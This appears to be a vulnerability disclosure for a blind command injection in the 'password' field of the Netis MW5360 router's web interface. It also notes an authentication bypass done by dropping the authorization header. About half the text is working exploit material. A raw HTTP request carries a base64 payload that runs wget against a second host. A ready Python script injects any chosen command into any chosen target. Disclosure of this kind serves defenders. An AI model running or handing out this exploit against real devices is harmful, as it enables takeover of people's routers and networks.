



# Blind Command Injection in "password" Parameter in Netis Router MW5360

## Description

A critical security vulnerability has been identified in the Netis router MW5360. This vulnerability results in a Blind Command Injection in the "password" parameter, leading to unauthorized access. Exploiting this vulnerability could allow attackers to execute arbitrary commands on the device, severely affecting its operational integrity and compromising network security.



## Firmware Information

- **Manufacturer's Address:** [Netis Systems](https://www.netis-systems.com)
- **Firmware Download Address:** [Firmware Download](https://www.netisru.com/Suppory/downloads/dd/1/img/530)

## Affected Version

- **Version:** Netis router MW5360 V1.0.1.3031

## Vulnerability Details

The vulnerability stems from improper handling of the "password" parameter within the MW5360 router's web interface. The router's login page authorization can be bypassed by simply deleting the authorization header, leading to the vulnerability. Attackers can inject a command in the 'password' parameter, encoded in base64, to exploit the command injection vulnerability. When exploited, this can lead to unauthorized command execution, potentially allowing the attacker to take control of the router.



## POC Code

Here is the raw HTTP request indicating the vulnerable part:

```http
POST /cgi-bin/skk_set.cgi HTTP/1.1
Host: 192.168.1.1
Content-Length: 80
Connection: close

password=YHdnZXQgaHR0cDovLzE5Mi4xNjguMS4yYA==&quick_set=ap&app=wan_set_shortcutz
```
The vulnerable part is the 'password' parameter. By injecting a command injection payload in base64 encoding, we can exploit the command injection vulnerability.


Below is the Python proof-of-concept (PoC) code to exploit the command injection vulnerability:

```python
import requests
import base64
import argparse

parser = argparse.ArgumentParser(description='Send a POST request to a target.')
parser.add_argument('target', help='The target to send the request to.')
parser.add_argument('command', help='The command to inject.')
args = parser.parse_args()

target = args.target
password = args.command
password = f"`{password}`"
password_b64 = base64.b64encode(password.encode()).decode()
target = f'{target}/cgi-bin/skk_set.cgi'

data = {
    'password': password_b64,
    'quick_set': 'ap',
    'app': 'wan_set_shortcutz'
}

response = requests.post(target, data=data)
print(response.text)
```

## POC Image

